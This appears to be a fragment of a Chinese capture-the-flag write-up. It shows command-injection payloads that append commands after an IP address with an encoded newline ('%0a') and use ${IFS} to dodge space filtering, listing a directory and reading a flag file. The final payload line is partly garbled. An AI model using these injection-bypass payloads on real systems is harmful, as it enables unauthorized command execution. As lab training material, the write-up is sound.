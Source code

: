![1687106058063](image/g.综合练习/1687106058063.png)

替换符


127.0.0.1%0als

![1687106132345](image/g.综合练习/1687106132345.png)

127.0.0.1%0acd${IFS}f***_is_here%0als

![1687106295814](image/g.综合练习/1687106295814.png)

```sql
127.0.0.1%0acd{IFS}f***_is_here%0amoreIFSf∗∗∗ishere{IFS}f***_2758310522839.php
```

得出空值，查看源码得出flag

![1687106454787](image/g.综合练习/1687106454787.png)
